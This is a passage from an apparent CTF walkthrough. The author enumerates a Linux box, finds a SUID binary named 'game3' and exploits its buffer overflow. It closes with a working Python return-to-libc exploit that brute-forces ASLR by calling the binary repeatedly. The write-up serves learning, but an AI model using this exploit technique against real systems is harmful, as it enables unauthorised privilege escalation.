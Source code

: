 __Preference__

I kinda prefer [jalesc](https://github.com/itsKindred/jalesc/blob/master/jalesc.sh) instead of [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh), both does the same thing but `jalesc` gives a bit colorfull output. 😄

***

I went through the output and found a SUID named `game3`. So this damn thing has to be related to RE or PWN 😢

I transfered the file from the machine to my system using `SFTP`.

I tried to feed it with big junk data and I got `SIGEGV`, seems like BoF.

![](images/jigsaw/bof.png)

I am not good in PWN at all so I decided to message [@DCAU7](https://twitter.com/DCAU7) to get some help and he provided gave me a [link](https://spz.io/2018/10/18/buffer-overflow-return-to-libc/) to post about `Return To Libc Buffer overflow`

***

__Credit__

According to him __@DCAU7__, [@4ndr34z](https://twitter.com/4nqr34z) was the one who originally found this post so thanks to him too 😄

***

Okay back to work, I followed the article(from the server section) and was able to write my own exploit for `return to libc BoF`

```python
from subprocess import call
import struct

libc_addr = 0xb752e000
sys_addr = struct.pack("<I", libc_addr+0x00040310)
arg_addr = struct.pack("<I", libc_addr+0x00162d4c)
exit_addr = struct.pack("<I", libc_addr+0x00033260)

buf = "A"*76
buf += sys_addr
buf += exit_addr
buf += arg_addr

i = 0
while(i<512):
    print("Try: %s" % (i))
    print(buf)
    i += 1
    ret = call(["/bin/game3", buf])
```